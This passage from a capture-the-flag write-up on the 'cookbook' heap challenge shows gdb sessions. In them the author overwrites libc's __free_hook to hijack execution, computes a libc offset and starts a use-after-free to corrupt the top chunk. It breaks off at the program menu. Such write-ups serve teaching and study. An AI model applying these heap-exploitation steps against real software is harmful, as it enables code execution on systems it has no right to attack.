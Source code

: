 So we can see here, the webhook is at `0xf7faf8b0` which is stored in libc between `0xf7faf000` & `0xf7fb2000`. Let's follow the process when we actually set the webhook (we will just be setting it to `0000`):

```
gdb-peda$ set {int}0xf7faf8b0 = 0x30303030
gdb-peda$ x/wx 0xf7faf8b0
0xf7faf8b0 <__free_hook>:	0x30303030
gdb-peda$ si
```

and after we step through the instructions untill the call

```
[----------------------------------registers-----------------------------------]
EAX: 0x30303030 ('0000')
EBX: 0xf7fae000 --> 0x1b5db0 
ECX: 0x804f2b0 ("15935728\n")
EDX: 0xf7faf87c --> 0x0 
ESI: 0x1 
EDI: 0xf7fae000 --> 0x1b5db0 
EBP: 0xffffd048 --> 0xffffd108 --> 0xffffd118 --> 0x0 
ESP: 0xffffd00c --> 0xf7e6ae5a (<free+154>:	add    esp,0x10)
EIP: 0x30303030 ('0000')
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x30303030
[------------------------------------stack-------------------------------------]
0000| 0xffffd00c --> 0xf7e6ae5a (<free+154>:	add    esp,0x10)
0004| 0xffffd010 --> 0x804f2b0 ("15935728\n")
0008| 0xffffd014 --> 0x8048b62 (add    esp,0x10)
0012| 0xffffd018 --> 0xf7faf87c --> 0x0 
0016| 0xffffd01c --> 0xf7e6adc0 (<free>:	push   ebx)
0020| 0xffffd020 --> 0x804f2b0 ("15935728\n")
0024| 0xffffd024 --> 0xf7e6adc6 (<free+6>:	add    ebx,0x14323a)
0028| 0xffffd028 --> 0xffffd130 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x30303030 in ?? ()
```

So we can see that it did try to execute the value of the web hook, `0000`. Later on, we can just compare the address of `free` to the address of the free hook to get the offset, which is `0x144af0`. Now let's overwrite the wilderness value:

#### Wilderness

To do this, we are going to create a stale pointer using the use after free vulnerabillity with create recipe. Let's see what the heap looks like after the memory has been freed:

```
gdb-peda$ r
Starting program: /Hackery/bkp16/cookbook/cookbook 
what's your name?
guyinatuxedo
+-----------------------------+
|          .--,--.            |
|          `.  ,.'            |
|           |___|             |
|           :o o:             |
|          _`~^~'             |
|        /'   ^   `\          |
| cooking manager pro v6.1... |
+-----------------------------+
====================
[l]ist ingredients
[r]ecipe book
```